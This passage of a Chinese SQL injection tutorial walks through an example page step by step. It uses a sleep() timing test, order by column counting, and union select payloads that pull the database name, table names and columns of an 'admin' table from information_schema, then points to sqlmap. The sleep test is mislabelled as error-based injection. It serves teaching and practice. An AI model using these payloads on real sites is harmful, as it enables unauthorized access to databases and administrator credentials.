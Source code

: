 还可以使用sleep函数来判断是否存在。

用法就是直接输入sleep(10)也就是叫页面休眠10秒钟再返回数据。

![Img](https://joker-1317382260.cos.ap-guangzhou.myqcloud.com/202304071705131.webp)

可以看到页面正在加载。证明我们输入进去的字符被当成命令执行了，这就是显错注入

## 查询数据库字段

可以使用`order by`函数

![Img](https://joker-1317382260.cos.ap-guangzhou.myqcloud.com/202304071715193.webp)

这里输入order by 1有回显，证明该页面最有一个字段，那么再试试3.

![Img](https://joker-1317382260.cos.ap-guangzhou.myqcloud.com/202304071716069.webp)

这里报错了，说明他小于3个字段，那么再试试2.

![Img](https://joker-1317382260.cos.ap-guangzhou.myqcloud.com/202304071716690.webp)

有正常的回显，证明这个页面一共只有2个字段。

## sql注入查询当前网页的数据库名

函数是`database()`

在这例题中的用法是这样

`?id=1 and 1=2 union select 1,database()` 回车

![Img](https://joker-1317382260.cos.ap-guangzhou.myqcloud.com/202304071739026.webp)

可以看到回显数据库名字了

`?id=1 and 1=2 union select 1,table_name from information_schema.tables where table_schema=database() limit 0,1`查询当前数据库下的表名

![Img](https://joker-1317382260.cos.ap-guangzhou.myqcloud.com/202304071741136.webp)


在大部分情况下管理员账号密码都在admin表里

`?id=1 and 1=2 union select 1,column_name from information_schema.columns where table_schema=database() and table_name='admin'`

![Img](https://joker-1317382260.cos.ap-guangzhou.myqcloud.com/202304071942865.webp)

这样我们得到了到第一个字段

如果网页有多个字段的话可以引用limit函数。 

## sqlmap

使用sqlmap可以一把梭，十分轻松的拿到库名
